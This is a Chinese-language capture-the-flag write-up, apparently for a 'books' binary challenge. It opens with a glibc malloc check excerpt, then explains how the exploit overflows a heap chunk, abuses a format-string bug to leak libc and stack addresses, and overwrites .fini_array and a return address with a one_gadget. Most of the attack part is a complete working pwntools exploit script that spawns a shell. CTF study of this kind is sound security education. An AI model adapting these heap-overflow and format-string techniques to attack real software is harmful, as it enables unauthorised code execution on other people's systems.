          assert (prev_inuse (p));
        }
    }
  else
    {
      /* address is outside main heap  */
      if (contiguous (av) && av->top != initial_top (av))
        {
          assert (((char *) p) < min_address || ((char *) p) >= max_address);
        }
      /* chunk is page-aligned */
      assert (((p->prev_size + sz) & (GLRO (dl_pagesize) - 1)) == 0);
      /* mem is aligned */
      assert (aligned_OK (chunk2mem (p)));
    }
}

static void
do_check_free_chunk (mstate av, mchunkptr p)
{
  INTERNAL_SIZE_T sz = p->size & ~(PREV_INUSE | NON_MAIN_ARENA);
  mchunkptr next = chunk_at_offset (p, sz);

  do_check_chunk (av, p);

  /* Chunk must claim to be free ... */
  assert (!inuse (p));
  assert (!chunk_is_mmapped (p));

  /* Unless a special marker, must have OK fields */
  if ((unsigned long) (sz) >= MINSIZE)
    {
      assert ((sz & MALLOC_ALIGN_MASK) == 0);
      assert (aligned_OK (chunk2mem (p)));
      /* ... matching footer field */
      assert (next->prev_size == sz);
      /* ... and is fully consolidated */
      assert (prev_inuse (p));
      assert (next == av->top || inuse (next));

      /* ... and has minimally sane links */
      assert (p->fd->bk == p);
      assert (p->bk->fd == p);
    }
  else /* markers are always of size SIZE_SZ */
    assert (sz == SIZE_SZ);
}
```


### 这里的格式化字符串是什么？

这里利用 fgetc 可以输入空字符、字符串相关函数遇到空字符就结束的特性，使最终输入的内容恰好落在格式化字符串参数的位置

此时对应的 submit 结果：Order 1: content\nOrder 2: Order 1: content\nOrder 2: \n
目标是让第二个 content 落在 dest 位置

首先，要溢出到可以修改节点 2 头部的位置，字符必须填满 0x80 字节。要保证第二个 content 落在 dest 位置，前面的内容（Order 1: content\nOrder 2: Order 1: ）必须为 0x90 字节。由于内容恰好为 0x90 字节（0x80 + 0x10 的 chunk 头），且字符串函数遇到空字符就会结束，因此可以在内容中放入空字符进行截断

> 程序退出后，会执行 `.fini_array` 地址处的函数，但只能利用一次。


> 这里利用 malloc(0x150) 得到的 chunk 仍然是 order2 这一点。在 submit 中，第一次复制将 order1 复制到 order2，随后又把 order2 的内容复制到 order2，因此超过 0x80 的部分就成为格式化字符串的内容


此时的格式化字符串用于泄露栈上的 libc_start_main 函数地址、修改 fini_array 的内容，以及泄露一个与第二次调用 printf 格式化字符串漏洞时的位置存在固定偏移的栈地址


构造格式化字符串后，在输入菜单选项 5 之后追加 fini_array 的地址，再找到输入位置与 printf 参数之间的偏移，最后修改地址并泄露地址

最后，在第二次格式化字符串攻击中，将返回地址修改为 onegadget 的地址（方法与第一次类似；栈上返回地址的位置与之前泄露的栈地址具有固定偏移）

将返回地址替换为 onegadget 地址后，执行到 onegadget 时会发现 rax 已经是 NULL，因此无需再将其清零


###  将十六进制字符串或字节（带或不带 0x 前缀）转换为整数

```python
int(字符串，16)
```
### 其他构造格式化字符串的方法
可以用多个 + 号进行拼接

```python
b"%"+one+b"c%13$hhn"+b"%"+two+b"c%14$hn"
```
## exp

```python
from pwn import*
context(os="linux",arch="amd64",log_level="debug")
p=process("./books")
#gdb.attach(p,"b main")
f=ELF("./books")
free_got=f.got["free"]

def editor1(content):
    p.sendlineafter(b"5: Submit\n",str(1))
    p.sendlineafter(b"Enter first order:\n",content)

def editor2(content):
    p.sendlineafter(b"5: Submit\n",str(2))
    p.sendlineafter(b"Enter second order:\n",content)

def delete1():
    p.sendlineafter(b"5: Submit\n",str(3))

def delete2():
    p.sendlineafter(b"5: Submit\n",str(4))

def submit(content):
    p.sendlineafter(b"5: Submit\n",content)


delete2()
payload=b"%10c%13$hhn%47c%14$hhn" #修改fini的内容
payload=payload+b"function:%31$p stack:%33$p"    # 泄露栈顶地址和函数地址

# p 0x7ffdb2339578-0x7ffdb23393c8 $1 = 0x1b0
#p 0x7ffdb23393c8- 0x7ffdb23392b8 $5 = 0x110


payload=payload+b'a'*(0x90-28-len(payload))
payload=payload+b"\x00"*(0x80-len(payload))+p64(0)+p64(0x151)
# Order 1: 内容\nOrder 2: Order 1: 内容\nOrder 2: \n
editor1(payload)

fini_addr=0x6011b8
submit(b'5'+7*p8(0x0)+p64(fini_addr+1)+p64(fini_addr))
#0x7fffe0688210-0x7fffe06881e0  0x0000000000400830  0x400a39


p.recvuntil(b"stack")
p.recvuntil(b"stack")
p.recvuntil(b"function:")
libc_start_main=p.recvuntil(b" ")[:-1]
libc_start_main=int(libc_start_main,16) # 将0x形式的字符串转化数字

p.recvuntil(b"stack:")
stack_addr=p.recvuntil(b"a")[:-1]
stack_addr=int(stack_addr,16)


libc_start_main=libc_start_main-240
libc_addr=libc_start_main-0x20750
stack_addr=stack_addr-0x1b0-0x110 +208
onegadget_addr=libc_addr+0x45226

print("libc_start_main",hex(libc_start_main))
print("libc_addr",hex(libc_addr))
print("stack_addr",hex(stack_addr)) 

change46=hex(onegadget_addr)[-6:-4]
change46=int(change46,16)
print(hex(change46))
change14=hex(onegadget_addr)[-4:]
change14=int(change14,16)
print(hex(change14))
two=bytes(str(change14-change46),"ascii")
one=bytes(str(change46),"ascii")


delete2()
print(one)
print(two)
payload=b"%"+one+b"c%13$hhn"+b"%"+two+b"c%14$hn"

payload=payload+b'a'*(0x90-28-len(payload))
payload=payload+b"\x00"*(0x80-len(payload))+p64(0)+p64(0x151)
# Order 1: 内容\nOrder 2: Order 1: 内容\nOrder 2: \n
editor1(payload)


submit(b'5'+7*p8(0x0)+p64(stack_addr+2)+p64(stack_addr))

p.interactive()
```

